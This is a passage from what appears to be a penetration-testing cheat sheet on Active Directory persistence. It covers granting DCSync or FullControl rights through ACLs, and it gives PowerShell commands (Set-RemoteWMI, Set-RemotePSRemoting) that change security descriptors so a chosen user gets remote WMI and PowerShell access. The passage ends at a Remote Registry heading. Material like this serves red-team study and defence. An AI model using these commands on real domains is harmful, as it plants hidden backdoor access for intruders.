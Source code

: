### DACLs - Interesting rights

The ACLs can be used for persistence purpose by adding interesting rights like DCSync, FullControl over the domain, etc. Check the `On any objects` in the ACLs attacks section. Multiple rights like **All**, **DCSync**, etc, are possible.

### DACLs - Security Decriptors

ACLs can be modified to allow users to access objects.

#### WMI

```powershell
#On local machine
Set-RemoteWMI -UserName user1 -Verbose

#On remote machine without explicit credentials
Set-RemoteWMI -UserName user1 -ComputerName <computer> -namespace 'root\cimv2' -Verbose

#On remote machine with explicit credentials. Only root\cimv2 and nested namespaces
Set-RemoteWMI -UserName user1 -ComputerName <computer> -Credential Administrator -namespace 'root\cimv2' -Verbose

#On remote machine remove permissions
Set-RemoteWMI -UserName user1 -ComputerName <computer> -namespace 'root\cimv2' -Remove -Verbose
```

#### PowerShell Remoting

```powershell
#On local machine
Set-RemotePSRemoting -UserName user1 -Verbose

#On remote machine without credentials
Set-RemotePSRemoting -UserName user1 -ComputerName <computer> -Verbose

#On remote machine, remove the permissions
Set-RemotePSRemoting -UserName user1 -ComputerName <computer> -Remove
```

#### Remote Registry

